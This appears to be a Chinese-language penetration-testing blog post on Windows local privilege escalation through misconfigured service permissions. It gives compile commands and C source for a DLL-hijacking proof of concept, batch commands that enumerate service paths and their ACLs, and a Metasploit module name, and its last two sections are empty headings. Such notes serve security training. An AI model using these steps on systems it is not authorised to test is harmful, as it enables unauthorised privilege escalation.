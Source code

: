 ```yaml
---
title: Windows 提权（三）利用服务权限错误提权
date: 2023-11-20 05:34:21
categories:
- Pentest
tags:
- windows
- LPE
- Info gathering

toc: true
notshow: true
---
```


# Windows 本地提权
## 利用服务权限错误提权
以管理员/系统身份运行且文件权限不正确的服务可能导致提权，替换该文件或者劫持 DLL（需要可写权限），然后重启该服务即可。
### DLL 劫持
1. 寻找 DLL 劫持利用点
   1. PowerSploit 中的 PowerUp 脚本：Find-PathDLLHijack PowerUp.ps1
   2. Process Monitor : check for "Name Not Found"
2. 编译恶意 DLL
   1. For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
   2. For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

    windows_dll.c 内容
    ```c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```
3. 寻找权限配置不当的 PATH 目录
   ```bat
    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
   ```

在某些情况下，程序可能自主地加载某些路径的 dll，此时就需要逆向特定的应用才可以判断是否可以进行 DLL 劫持。

参考：
- [Powershell 提权框架-Powerup——平心而论，这个提权工具还是很好用的，看后面实战例子 - bonelee - 博客园](https://www.cnblogs.com/bonelee/p/16227518.html)


### PATH 路径可写
下面的命令可以对服务的 path 路进具备的权限进行排查。
```bat
$ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
$ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

$ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
两组命令都可以用，但会生成文件。

或者也可以直接使用 msf 中的 exp：
```
exploit/windows/local/service_permissions
```
### windows 10 - CVE-2019-1322 UsoSvc

### Windows XP SP1 - upnphost
